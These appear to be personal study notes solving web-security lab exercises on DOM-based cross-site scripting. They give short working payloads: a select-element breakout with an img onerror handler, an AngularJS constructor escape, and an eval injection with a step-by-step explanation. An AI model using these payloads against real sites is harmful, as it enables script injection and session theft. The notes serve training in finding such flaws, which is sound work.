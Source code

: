 ____

# DOM XSS in `document.write` sink using source `location.search` inside a select element

```html
"></select><img src=1 onerror=alert(1)>
```

![[Pasted image 20240804162601.png]]

```html
test</select><img src=1 onerror=alert(1)>
```

# DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

`ng-app`

```js
{{$on.constructor('alert(1)')()}}
```

# Reflected DOM XSS

The application may be vulnerable to DOM-based JavaScript injection. Data is read from **location.search** and passed to **eval**.

```js
\"-alert()}//
```

Here's the step-by-step breakdown of why this works:

1. **Escape the JSON Context**: The `\"` escapes the JSON string.
2. **Inject Code**: `-alert()` gets injected and executed.
3. **Comment Out**: `}//` comments out the rest to prevent any syntax errors from the remaining code.

# Stored DOM XSS

